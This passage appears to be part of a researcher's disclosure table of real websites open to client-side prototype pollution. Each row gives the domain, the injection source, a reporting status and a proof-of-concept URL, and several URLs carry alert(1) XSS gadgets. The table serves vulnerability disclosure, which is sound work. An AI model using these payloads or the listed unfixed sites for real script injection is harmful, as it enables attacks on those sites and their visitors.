 |britsafe.org|144338|URL search|, Cookie-M, URL-M|Reported|`https://britsafe.org/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|brjunetka.ru|687058|URL search|, Cookie-M|Reported|`https://brjunetka.ru/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bt21fans.com|315528|URL search|-|Reported|`https://bt21fans.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|btcs.com|478838|URL search|-|Reported|`https://btcs.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|buchmesse.de|27961|URL search|-|Reported|`https://www.buchmesse.de/en?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|budopest.hu|542715|URL search|, URL-M|Reported|`https://budopest.hu/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|build-a-cross.com|701592|URL search|, URL-M|Reported|`https://build-a-cross.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|builder.ai|94941|URL search|, Cookie-M, URL-M|Reported|`https://www.builder.ai/blog/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|builderbooks.com|953146|URL search|, URL-M|Fixed|`https://www.builderbooks.com/100-things-bears-fans-should-know---do-before-they-die-products-9781629378367.php/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|buildersshow.com|106449|URL search|-|Reported|`https://buildersshow.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|buildingenclosureonline.com|617081|URL|, URL-M|Reported|`https://buildingenclosureonline.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bullang.com|463644|URL|-|Reported|`https://bullang.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|businessbacker.com|435562|URL search|, Cookie-M, URL-M|Reported|`https://businessbacker.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|businessfacilities.com|117070|URL|-|Reported|`https://businessfacilities.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|businessfleet.com|512341|URL|, URL-M|Not|`https://businessfleet.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|businessjournaldaily.com|118349|URL search|, URL-M|Fixed|`https://businessjournaldaily.com/category/news/voltage-valley/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|businessreport.com|75272|URL|-|Reported|`https://businessreport.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|businesstrainingworks.com|353611|URL search|, Cookie-M|Fixed|`https://www.businesstrainingworks.com/custom-solutions/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|businesstravelnews.com|64787|URL|, URL-M|Reported|`https://businesstravelnews.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|businesstravelnewseurope.com|251629|URL search|-|Not|`https://businesstravelnewseurope.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bustedcoverage.com|110360|URL search|-|Reported|`https://bustedcoverage.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|busyteacher.org|40639|URL search|-|Reported|`https://busyteacher.org/classroom_activities-reading-worksheets/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|butlerfortrello.com|49276|URL search|-|Reported|`https://blog.trello.com/ja?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&hsLang=ja`
|buyapowa.com|298565|URL search|-|Fixed|`https://www.buyapowa.com/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|buycollegeessays.online|656897|URL search|-|Reported|`https://buycollegeessays.online/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|buyingbusinesstravel.com|353756|URL search|-|Not|`https://buyingbusinesstravel.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|bytebucket.org|128377|URL search|-|Not|`https://bitbucket.org/product/pricing/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|cad-kenkyujo.com|380166|URL search|, Cookie-M|Fixed|`https://cad-kenkyujo.com/jw_cad/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|caixaenginyers.com|347056|URL search|-|Reported|`https://caixaenginyers.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|calaproduct.com|682026|URL search|-|Reported|`https://calaproduct.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|calculistadeaco.com.br|335859|URL search|, Cookie-M|Reported|`http://calculistadeaco.com.br/downloads-gratis/?__proto__[onload]=alert(1)&__proto__[src]=1&__proto__[onerror]=alert(1)`
|campsaver.com|73815|URL search|, Cookie-M, URL-M|Reported|`https://campsaver.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|canadianbiomassmagazine.ca|568587|URL search|, URL-M|Reported|`https://www.canadianbiomassmagazine.ca/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv&__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|canadianconsultingengineer.com|480010|URL|, URL-M|Reported|`https://canadianconsultingengineer.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|canadiancontractor.ca|883276|URL search|-|Reported|`https://www.canadiancontractor.ca/?__proto__[123]=testv&__proto__.123=testv&constructor[prototype][123]=testv`
|canadiangrocer.com|172798|URL search|-|Reported|`https://canadiangrocer.com/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`
|canadianhealthcarenetwork.ca|770849|URL search|-|Reported|`https://canadianhealthcarenetwork.ca/?__proto__[1]=v&__proto__.1=v&constructor[prototype][1]=v`